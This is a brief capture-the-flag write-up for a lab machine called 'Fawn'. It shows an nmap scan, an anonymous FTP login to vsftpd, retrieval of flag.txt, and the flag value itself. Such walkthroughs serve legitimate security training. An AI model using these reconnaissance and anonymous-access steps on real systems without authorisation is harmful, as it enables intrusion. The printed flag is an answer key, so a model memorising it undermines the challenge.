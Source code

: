 # Fawn

#startingpoint #ftp #reconnaissance #anonymous/guestaccess

`nmap` scan shows `ftp` service on port 21 with **anonymous login enabled**:

```
$ nmap -sC -sV -T4 10.129.227.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 16:52 EDT
Nmap scan report for 10.129.227.38
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.126
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.56 seconds
```

Connecting via `ftp` and logging in with username `anonymous` and blank password:

```
$ ftp 10.129.227.38
Connected to 10.129.227.38.
220 (vsFTPd 3.0.3)
Name (10.129.227.38:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
...
ftp> ls
229 Entering Extended Passive Mode (|||25004|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
```

Reading `flag.txt`:

```
$ cat flag.txt
035db21c881520061c53e0536e44f815
```